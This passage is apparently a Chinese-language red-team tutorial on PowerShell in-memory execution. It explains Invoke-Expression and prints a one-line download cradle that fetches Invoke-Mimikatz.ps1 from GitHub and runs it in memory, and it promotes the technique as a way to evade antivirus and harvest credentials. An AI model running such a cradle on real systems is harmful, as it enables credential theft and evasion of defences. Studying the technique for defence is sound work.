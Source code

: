 **PowerShell 不仅仅是一个工具**  
 — 它是在现代攻击面中导航的不可或缺的盟友。  
## PowerShell 及其内存加载功能  
  
PowerShell 的内存执行是红队人员的理想工具。原因如下：  
- **代码直接在 RAM 中运行**  
，不在磁盘上留下痕迹。这使得防病毒和安全工具很难检测到。  
  
- 攻击者可以**动态生成、修改和混淆代码**  
。这允许快速适应不同环境并规避安全措施。  
  
- 整个框架和**复杂工具可以加载到内存中**  
，让攻击者无需安装软件即可获得完整的功能套件。  
  
- 活在当下  
  
- **一旦进入系统，内存执行可以实现从凭据收集到横向移动的所有操作，同时保持低调**  
。  
  
## Invoke-Expression Cmdlet — 实现内存执行  
  
Invoke-Expression  
（IEX）允许在当前会话中将字符串作为 PowerShell 命令执行。它是内存执行的关键工具。  
```
Invoke-Expression "Get-Process"
```  
  
这个命令运行"Get-Process"并返回活动进程列表。当Invoke-Expression  
与其他 cmdlets 或.NET 方法结合使用时，能够实现更强大的内存中命令执行。  
## 使用 IEX 进行内存加载和执行  
  
当与WebClient  
类的.DownloadString  
结合使用时，IEX  
可以完全在内存中下载和运行脚本。  
```
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowershellMafia/Powersploit/refs/heads/master/Exfiltration/Invoke-Mimikatz.ps1')
```  
- New-Object Net.WebClient  
 创建一个用于获取资源的 WebClient  
 实例。  
  
- .DownloadString('URL')  
 从提供的 URL 下载脚本。  
  
- IEX  
 在内存中执行下载的脚本。  
  
这种方法可以实现隐蔽执行，绕过磁盘存储，使检测变得更加困难。  
## 当你尝试执行它时"轰"  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCOib9micKd4QEXxwEodNUgxJ3ibzNKAyUobEwICwpR3l9RVFCMY5koZwB1vDhswDZg3gCb2RPw1kxnvA/640?wx_fmt=png&from=appmsg "")  
  